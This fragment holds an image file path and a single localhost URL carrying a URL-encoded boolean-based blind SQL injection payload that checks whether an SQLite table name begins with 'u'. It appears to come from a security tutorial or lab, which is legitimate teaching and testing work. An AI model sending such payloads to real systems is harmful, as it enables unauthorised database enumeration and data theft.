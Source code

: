 http://localhost:3000/1%20and%20(select%20count(*)%20from%20sqlite_master%20where%20substr(tbl_name,%201,%201)%20=%20'u')%20%3E%200
